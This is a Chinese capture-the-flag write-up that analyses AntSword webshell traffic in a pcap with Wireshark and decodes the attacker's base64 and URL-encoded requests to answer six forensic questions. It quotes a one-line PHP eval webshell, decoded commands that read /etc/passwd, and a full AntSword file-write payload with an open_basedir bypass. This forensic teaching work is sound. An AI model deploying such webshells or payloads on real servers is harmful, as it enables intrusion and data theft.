# 玄机——第六章 流量特征分析-蚁剑流量分析

### 一、前言

题目链接：[第六章 流量特征分析-蚁剑流量分析](https://xj.edisec.net/challenges/32)

三连**免费**送玄机注册邀请码噢~（随时都有效）私信私信私信！！！看见就回！！！！

什么是蚁剑（AntSword）？

蚁剑（AntSword）是一款开源的WebShell管理工具，主要用于渗透测试和应急响应。它由中国的安全团队开发，旨在为安全研究人员和渗透测试人员提供高效、便捷的WebShell管理和操作环境。

主要功能

* **WebShell管理**：

  * 支持多种WebShell类型：包括PHP、ASP、ASPX、JSP等，适用于各种Web服务器环境。
  * 批量管理：可以批量添加、删除和管理多个WebShell，提高管理效率。
* **文件管理**：

  * 图形化界面：提供类似文件管理器的图形界面，方便浏览和操作远程服务器上的文件和目录。
  * 文件上传/下载：支持文件上传和下载操作，便于在远程服务器上部署或提取文件。
* **命令执行**：

  * 交互式Shell：提供类似终端的交互式命令行界面，直接在远程服务器上执行命令。
  * 脚本执行：支持执行自定义脚本，自动化执行复杂任务。
* **数据库管理**：

  * 支持多种数据库：可以管理MySQL、MSSQL、Oracle、PostgreSQL等数据库。
  * 数据库操作：支持执行SQL语句，进行数据库查询和管理。
* **插件扩展**：

  * 插件系统：支持安装各种功能插件，如信息收集、提权工具等，扩展蚁剑的功能。
* **通信加密**：

  * 数据加密：为了避免通信被拦截，蚁剑对WebShell的通信数据进行了加密处理，提高隐蔽性。

总结

**蚁剑（AntSword）以其跨平台兼容性、强大的WebShell管理功能、直观的图形化界面和多种数据库支持，成为渗透测试和应急响应中不可或缺的工具。其插件系统和通信加密功能进一步增强了工具的灵活性和安全性。**

什么是蚁剑流量？

蚁剑流量通常指的是使用蚁剑（AntSword）管理WebShell时，WebShell和蚁剑管理端之间的网络通信流量。这种流量涉及WebShell执行的各种操作，例如文件上传下载、命令执行、数据库查询等。理解蚁剑流量的产出原理对于检测和防御恶意WebShell活动非常重要。

蚁剑流量的产出原理

1. **连接建立**

    * 当用户在蚁剑中添加一个WebShell地址并进行连接时，蚁剑会向目标Web服务器发送一个HTTP请求。这个请求通常包含WebShell代码的载荷，如PHP、ASP等脚本语言编写的恶意代码。
    * 例如，对于PHP WebShell，可能是一个包含简单代码的POST请求，如：`<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>`​。
2. **认证和握手**

    * WebShell通过某种认证机制（如密码或密钥）与蚁剑进行握手，确认双方的合法性。
    * 认证通常通过POST请求中包含的特定参数来实现，如密码字段。
3. **命令和数据传输**

    * 认证成功后，蚁剑可以向WebShell发送各种命令。这些命令通常是通过POST请求传递的，并包含需要执行的具体指令或脚本代码。
    * 例如，执行一个命令可能是这样一个请求：`POST /path/to/webshell.php HTTP/1.1`​，请求体可能包含`pass=5d41402abc4b2a76b9719d911017c592&cmd=ls`​。
4. **响应处理**

    * WebShell在服务器上执行接收到的命令，并将执行结果返回给蚁剑。
    * 服务器的响应通常是标准的HTTP响应，响应体中包含命令的输出结果。例如，返回一个目录列表或查询结果。
5. **数据加密**

    * 为了防止通信被拦截，蚁剑和WebShell之间的流量通常会进行加密。常见的方法是对数据进行base64编码或使用其他加密算法。
    * 这种加密通信增加了检测和分析的难度。

蚁剑流量特征

* **固定的路径和参数**

  * 通常，WebShell的路径是固定的，且在通信中使用特定的参数（如`pass`​和`cmd`​）。
* **频繁的HTTP POST请求**

  * 大多数命令和操作通过POST请求进行，因为POST请求可以携带较大的数据量并隐藏在请求体中。
* **加密或编码的数据**

  * 通信内容往往经过加密或编码，数据流中会出现base64编码或其他加密形式的字符串。
* **特定的响应模式**

  * WebShell的响应通常是命令执行的结果，这些响应的格式和内容有别于正常的Web应用程序响应。

总结

**蚁剑流量是WebShell和管理端之间的通信流量，包含命令传输和数据返回。其产出原理基于HTTP协议，通过POST请求传递命令和参数，并返回执行结果。**

### 二、概览

#### 简介

**1.木马的连接密码是多少**  
**2.黑客执行的第一个命令是什么**  
**3.黑客读取了哪个文件的内容，提交文件绝对路径**  
**4.黑客上传了什么文件到服务器，提交文件名**  
**5.黑客上传的文件内容是什么**  
**6.黑客下载了哪个文件，提交文件绝对路径**

### 三、参考文章

[[玄机]流量特征分析-蚁剑流量分析](https://blog.csdn.net/haosha__demingzi/article/details/135816411)

[玄机-流量特征分析-蚁剑流量分析](https://blog.csdn.net/m0_73649671/article/details/137876556)

### 四、步骤（解析）

#### 步骤#1.1

##### 木马的连接密码是多少

解题思路1.1

下载附件（Antsword.pcap），丢进Wireshark进行分析；

[Wireshark](https://www.wireshark.org/download.html)

​​

我们也知道这是一题蚁剑流量包的题对吧？而且上面我也总结了蚁剑流量的特征及原理，那这题问木马的连接密码，如果仔细看过上面的讲解，那就应该知道把木马传进去，不管是成功与否，都会有回显（友好的题目，不是百分之百有回显）；

不过这里我们肯定不是看它的回显啦（鬼知道有什么回显），题目问我们密码那肯定就是上传成功了这点不需要质疑，再根据http协议，上传成功的状态码是200 OK；

###### 拓展1.1

**在HTTP协议中，状态码用于指示服务器对客户端请求的响应状态。常见的状态码及其含义如下：**

**1xx: 信息响应**

* **100 Continue**: 继续，客户端应继续其请求。
* **101 Switching Protocols**: 切换协议，服务器根据客户端的请求切换协议。

**2xx: 成功响应**

* **200 OK**: 请求成功，服务器已成功处理请求。
* **201 Created**: 已创建，服务器已成功创建资源。
* **202 Accepted**: 已接受，服务器已接受请求，但尚未处理。
* **204 No Content**: 无内容，服务器成功处理请求，但没有返回任何内容。

**3xx: 重定向**

* **301 Moved Permanently**: 永久移动，请求的资源已被永久移动到新位置。
* **302 Found**: 临时移动，请求的资源临时移动到新位置。
* **304 Not Modified**: 未修改，自上次请求后，请求的资源未修改，客户端可以使用缓存的资源。

**4xx: 客户端错误**

* **400 Bad Request**: 错误请求，服务器无法理解请求。
* **401 Unauthorized**: 未授权，请求需要用户验证。
* **403 Forbidden**: 禁止访问，服务器拒绝请求。
* **404 Not Found**: 未找到，请求的资源在服务器上不存在。
* **405 Method Not Allowed**: 方法不允许，服务器不支持请求所使用的方法。

**5xx: 服务器错误**

* **500 Internal Server Error**: 服务器内部错误，服务器在处理请求时发生意外情况。
* **501 Not Implemented**: 未实现，服务器不支持请求所需的功能。
* **502 Bad Gateway**: 错误网关，服务器作为网关或代理，从上游服务器收到无效响应。
* **503 Service Unavailable**: 服务不可用，服务器当前无法处理请求。
* **504 Gateway Timeout**: 网关超时，服务器作为网关或代理，未能及时从上游服务器收到响应。

所以我们这里就可以直接筛选出http协议中包含200（成功登录返回值）的流量包；

	http.response.code == 200

​​

> 一般这种流量包我个人喜欢按它的大小来看（圈起来），点击一下Length就会自动对筛选出的HTTP协议进行排序，理由也很简单嘛，肯定越大的东西自然也就越多嘛；（也别傻乎乎的啥都按大小来看哈）

右键-->追踪流-->HTTP即可；

​​

​​

这里看见一个”1“，暂时还不确认就是密码，不过我们可以通过继续上面的操作查一下其它的200；

​​

看了一个最小的，开头也是”1“，那基本就可以确定了，尝试提交结果正确；

	flag{1}

###### 拓展1.2

**Wireshark常用查询命令**

1. 基本过滤器

* **过滤HTTP状态码200：**

  ​`http.response.code == 200`​
* **过滤HTTP GET请求：**

  ​`http.request.method == "GET"`​

2. IP 地址过滤

* **过滤特定源IP地址的流量：**

  ​`ip.src == 192.168.1.1`​
* **过滤特定目标IP地址的流量：**

  ​`ip.dst == 192.168.1.1`​
* **过滤特定源或目标IP地址的流量：**

  ​`ip.addr == 192.168.1.1`​

3. 端口过滤

* **过滤特定源端口的流量：**

  ​`tcp.srcport == 80`​
* **过滤特定目标端口的流量：**

  ​`tcp.dstport == 80`​
* **过滤特定端口的流量（无论是源端口还是目标端口）：**

  ​`tcp.port == 80`​

4. 协议过滤

* **过滤HTTP流量：**

  ​`http`​
* **过滤HTTPS流量：**

  ​`ssl`​
* **过滤DNS流量：**

  ​`dns`​

5. 其他常用过滤器

* **过滤特定MAC地址的流量：**

  ​`eth.addr == 00:11:22:33:44:55`​
* **过滤TCP重传：**

  ​`tcp.analysis.retransmission`​
* **过滤TCP三次握手过程：**

  ​`tcp.flags.syn == 1 && tcp.flags.ack == 0`​
* **过滤TCP连接终止过程：**

  ​`tcp.flags.fin == 1`​

6. 组合过滤器

* **过滤特定源IP和目标端口的流量：**

  ​`ip.src == 192.168.1.1 && tcp.dstport == 80`​
* **过滤HTTP 200响应的流量：**

  ​`http && http.response.code == 200`​
* **过滤HTTP 200服务器成功处理了请求：**

  ​`http contains "200"`​

#### 步骤#1.2

##### 黑客执行的第一个命令是什么

解题思路1.2

这题问黑客执行的第一个语句是什么？其实这题也很好分析，首先就是在上面我们已经总结过蚁剑流量的特征，而且也说了蚁剑连接执行命令是被编码过的，那我们只需要找到进行解码，接着按照执行命令先后顺序找到第一个执行的（根据编码的特征可以得知是base64）；

这里我们使用命令：

	http contains "200"

在Wireshark中使用`http contains "200"`​进行过滤时，实际上是在寻找包含字符串“200”的HTTP数据包。这通常是为了查找HTTP响应状态码为200的响应包，即表示HTTP请求成功的响应包。

**为什么还是继续查询200？**

理由也很简单如果命令被成功执行，肯定会包含200 OK；

​​

**因为要求我们找到执行的《第一个命令》，所以我们直接单击Time进行简单的排序（不是最底下就是最上面）；**

​​

**最上面的，巴拉巴拉一大堆，我们先不管是啥，反正肯定不是执行的命令，所以我们直接点击最底下的那个包进行查看；**

​​

**右键编码“Value”位置，点击“显示分组字节流”，开始位置调整为“2”，解码为调整为“Base64”，查看流量包执行的命令内容；**

​​

**那有的人就要问了，为什么要将开始位置调整为“2”？**

* **混淆技术**：通过在编码前添加随机字符，生成的Payload每次都会有所不同，使得静态签名检测更加困难。这有助于避免被防火墙或入侵检测系统（IDS）基于特征码匹配进行检测和拦截。
* **防止重复检测**：如果每次编码的内容都不一样，那么同一个Payload在不同时间发送时也不会被重复识别和阻挡。这对防止防火墙根据历史数据进行阻拦特别有效。
* **编码复杂度**：增加随机字符使得编码后的内容更加复杂，进一步提升了防火墙分析和解码的难度。这种复杂性可以有效地躲避某些基础的WAF检测规则。

总结

**蚁剑在编码前加两位随机字符主要是为了提升Payload的变异性和复杂性，从而更有效地绕过安全检测。**

​​

	cd "/var/www/html";id;echo e124bc;pwd;echo 43523

**那有的人又会问了，这里第一个命令不是cd嘛，为什么是id呢？**

命令是按顺序执行的，具体顺序如下：（理论上来说）

1. ​`cd /var/www/html`​
2. ​`id`​
3. ​`echo e124bc`​
4. ​`pwd`​
5. ​`echo 43523`​

> 尽管 `cd /var/www/html`​ 是第一个被执行的命令，但是我们通常强调的是`id`​命令的执行，因为`id`​命令的输出能立刻确认当前环境的用户权限和身份信息，这是至关重要的信息，特别是在安全检查或入侵测试的情况下。

* ​`cd /var/www/html`​ 只是改变了当前工作目录，并没有直接输出任何信息。
* ​`id`​ 命令会输出当前用户和组的身份信息，这是攻击者或管理员非常关心的内容。
* 其他的 `echo`​ 和 `pwd`​ 命令只是用于输出一些标识和当前工作目录。

> 因此，虽然从技术上讲，第一个被执行的命令是 `cd /var/www/html`​，但在实际应用中，人们通常会重点关注 `id`​ 命令的结果，因为它提供了有关用户身份和权限的关键信息。这也是为什么 `id`​ 命令被特别强调的原因。（基于理论上来说就不太好理解）

直观一点嘛就是，我提交cd发现flag是错的，但是提交id是对的，这下好理解了吧？

所以这题自然而然就是id咯；

	flag{id}

#### 步骤#1.3

##### 黑客读取了哪个文件的内容，提交文件绝对路径

解题思路1.3

问为什么黑客读取了那个文件，一般来说读取文件我们都是cat来读内容，这个没错对吧（极少个别特殊情况才会用到别的），那思路就很明显了呀，找cat呗，什么？？你说万一不止一个cat怎么办？哎呀，那你看看题目呀，肯定不会一次性读取那么多让我们去猜的啦（至少这种题目不会的）；

**那我们需要怎么筛选呢？**

* **过滤HTTP流量**：（这个不需要我说了吧？）

  * 使用显示过滤器 `http`​ 只查看HTTP流量，因为文件读取请求通常通过HTTP协议发送。例如，可以使用 `http.request`​ 查看所有HTTP请求。
* **查找特定的请求类型**：

  * 针对文件读取的请求通常使用特定的HTTP方法，例如GET或POST。可以使用 `http.request.method == "GET"`​ 或 `http.request.method == "POST"`​ 来过滤这些请求。
* **查找HTTP响应**：

  * 对于每个文件读取请求，查看相应的HTTP响应。可以通过 `http.response`​ 过滤HTTP响应，并与请求进行关联。
  * 查看响应内容，尤其是`HTTP/1.1 200 OK`​响应，来判断是否成功读取了文件内容。

命令：

	http.request.method == "POST"

​​

**继续上面刚猜的操作，右键选择显示“分组字节流”，开始调整“2”，编码选择base64进行查看；**

​​

**发现执行的是ls，并不是我们需要的；（这边还是喜欢按照大小排序一下，又大道小一个一个查找过去）；**

**最后在倒数第三个包里面发现了cat；**

​​

重复操作即可；

​​

	cd "/var/www/html";cat /etc/passwd;echo e124bc;pwd;echo 43523 ·

**题目让我们提交的是绝对路径，所以只需要提交&quot;/etc/passwd&quot;即可；**

	flag{/etc/passwd}

#### 步骤#1.4

##### 黑客上传了什么文件到服务器，提交文件名

解题思路1.4

让我们找出黑客传入什么文件进入服务器，思路很简单，都说了**上传上传**，那肯定会用到POST请求呀， 文件上传通常使用HTTP的POST方法。使用过滤器 `http.request.method == "POST"`​ 只查看POST请求。

命令；

	http.request.method == "POST"

还是跟刚刚一样，一个一个查过去，“2”开始，base64编码，就查最底下的数据；

​​

​​

本来没想到这是个文件的，但是看见那个flag.txt实在太明显了，尝试提交，结果发现正确；

**网上这题还有其它做法；（思路）**

1、根据之前做的分析，继续查看后面的流量包。通过分析回显流量包，发现第5个返回包与第2个返回包相比多了一个文件，由此可以得到文件名，当然我们也可以直接分析解码得到上传文件名；

2、追踪第四条流量的http流，将post内容url解码，看到fwrite函数，以及对应的传参关系，然后将传参解码得到flag{flag.txt}

复制选中，找个在线解码URL；（可以说蚁剑流量常见的就是URL编码与base64编码混淆）

所以这里我们先进行URL解码，在进行base64解码；

[在线URL解码](https://www.urldecoder.org/zh/)

​​

**丢进base64解码；（根据蚁剑流量特征，前面两位需要删掉）**

​​

​​

最后也是可以得到flag.txt，不过相对来说还是第一种更为方便一些；

	flag{flag.txt}

#### 步骤#1.5

##### 黑客上传的文件内容是什么

解题思路1.5

上一题让我们找上传了什么文件，这题让我们查文件内容是什么，好好好，怎么感觉有点套娃呀，能咋子，找呗，其实如果真正了解蚁剑流量包的，根据上一题就已经知道文件内容在哪里了，为什么这样说，其实那一段URL解码出来的是一个被用来在服务器上创建、修改文件的恶意脚本；

只要分析清楚这个脚本就可以明白文件内容了；

还是上一题的包，我们继续分析；

​​

**URL解码完，很乱对吧？那如果我们将它排序好呢？**

​​

整理完整PHP脚本如下；

	1=@ini_set("display_errors", "0");  
	@set_time_limit(0);  
	$opdir=@ini_get("open_basedir");  
	if($opdir) {  
	    $ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);  
	    $oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);  
	    @array_push($oparr,$ocwd,sys_get_temp_dir());  
	    foreach($oparr as$item) {  
	        if(!@is_writable($item)){continue;};  
	        $tmdir=$item."/.368479785";  
	        @mkdir($tmdir);  
	        if(!@file_exists($tmdir)){continue;}  
	        $tmdir=realpath($tmdir);  
	        @chdir($tmdir);  
	        @ini_set("open_basedir", "..");  
	        $cntarr=@preg_split("/\\\\|\//",$tmdir);  
	        for($i=0;$i<sizeof($cntarr);$i++){  
	            @chdir("..");  
	        };  
	        @ini_set("open_basedir","/");  
	        @rmdir($tmdir);  
	        break;  
	    };  
	};  
	function asenc($out){return$out;};  
	function asoutput(){  
	    $output=ob_get_contents();  
	    ob_end_clean();  
	    echo "6960"."cb205";  
	    echo @asenc($output);  
	    echo "1e0a"."91914";  
	}  
	ob_start();  
	try{  
	    $f=base64_decode(substr($_POST["t41ffbc5fb0c04"],2));  
	    $c=$_POST["ld807e7193493d"];  
	    $c=str_replace("\r","",$c);  
	    $c=str_replace("\n","",$c);  
	    $buf="";  
	    for($i=0;$i<strlen($c);$i+=2)  
	        $buf.=urldecode("%".substr($c,$i,2));  
	    echo(@fwrite(fopen($f,"a"),$buf)?"1":"0");  
	}catch(Exception $e){  
	    echo "ERROR://".$e->getMessage();  
	};  
	asoutput();  
	die();  
	&ld807e7193493d=666C61677B77726974655F666C61677D0A  
	&t41ffbc5fb0c04=0ZL3Zhci93d3cvaHRtbC9mbGFnLnR4dA==

很多人可能第一次看见蚁剑流量以这种形式显示出来，当然这个脚本对于刚刚学没多久的来说确实有些许困难，不过呢，看不懂没关系嘛，你看最底下显示的那两行眼不眼熟？

> 是的，没错最后一行就是我们删除前两位进行base64解码的flag.txt文件，也就是黑客传入的文件，那再大胆猜猜，你猜上面那一行是什么？是吧，这其实进行简单的hex解码内容就出来了；

**PHP脚本代码简单说明**

主逻辑；

* 从POST请求中获取两个参数`t41ffbc5fb0c04`​和`ld807e7193493d`​。
* ​`t41ffbc5fb0c04`​经过Base64解码并去除前两个字符，得到文件路径。
* ​`ld807e7193493d`​是要写入文件的内容。
* 清理内容中的换行符，然后将其分成两字符一组，并进行URL解码。
* 将解码后的内容写入指定文件。

**简单总结；**

* 这个脚本通过POST请求接收文件路径和内容，并将内容写入指定文件。
* 进行了`open_basedir`​绕过尝试，以提升脚本执行权限。
* 利用Base64和URL编码来传递文件路径和内容，具有一定隐蔽性。

> 其实主要的就是这个脚本通过POST请求接收两个参数：`ld807e7193493d`​和`t41ffbc5fb0c04`​，并将数据写入由参数`t41ffbc5fb0c04`​指定的文件中。

[hex在线解码](https://try8.cn/tool/code/hex)

​​

	flag{write_flag}

#### 步骤#1.6

##### 黑客下载了哪个文件，提交文件绝对路径

解题思路1.6

刚刚问我们，上传了什么文件，现在又问我们下载了啥文件，思路很简单呀，既然下载了，那肯定是成功了对吧，既然成功下载那响应包肯定是200，和上面一样思路，直接筛选200，一个一个进行分析即可；

命令：

	http contains "200"

​​

**为什么我就可以确定是这个呢？**

简单来说我按了个时间排序（Time），这既然是最后一题，那想想，这会不会是黑客最后一条命令（虽然有猜的成分在里面；但是一条一条分析过去，你会发现基本上都是你分析过的内容没什么好看的）

​​

直接右键单击编码“Value”位置，点击“显示分组字节流”，开始位置调整为“2”，解码为调整为“Base64”；

	/var/www/html/config.php

如果最后一题你不确定黑客下载的是这个文件，不妨把你筛选出来的200，还是按照这个操作全部提交一遍试试看；（不缺时间的话）

	flag{/var/www/html/config.php}
